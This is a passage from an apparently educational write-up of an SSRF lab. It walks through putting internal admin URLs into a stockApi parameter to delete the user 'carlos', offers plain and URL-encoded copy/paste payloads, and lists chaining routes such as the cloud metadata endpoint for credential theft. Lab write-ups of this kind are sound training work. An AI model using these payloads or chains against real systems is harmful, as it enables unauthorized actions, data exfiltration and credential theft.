(Screenshot 2: HTML/Elements view showing the /delete?username=carlos link.)

5. *Exploit: trigger the action via SSRF*  
- Put the full actionable URL back into stockApi (encoded if original was encoded):
  - Plain: stockApi=http://192.168.0.68:8080/admin/delete?username=carlos
  - Encoded: stockApi=http%3A%2F%2F192.168.0.68%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
- Send the request — the server will perform the delete.

![SSRF — triggered delete via stockApi, verified carlos removed](../images/ssrf-lab2-solved.png)  
(Screenshot 3: final SSRF request/response showing the delete action executed and confirmation.)

6. *Verify & collect evidence*  
- Fetch an admin users page via stockApi to confirm removal and save raw requests/responses and timestamps as PoC.

---

## 🔹 Example payloads (copy/paste)

*Plain*
stockApi=http://192.168.0.68/admin
stockApi=http://192.168.0.68:8080/admin/delete?username=carlos
*Encoded*
stockApi=http%3A%2F%2F192.168.0.68%2Fadmin 
stockApi=http%3A%2F%2F192.168.0.68%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
---

## 🔹 Real-world chaining & impact
- SSRF → cloud metadata (169.254.169.254) → credential theft.  
- SSRF → internal DB APIs → data exfiltration.  
- SSRF → create admin user / change config → full takeover.

---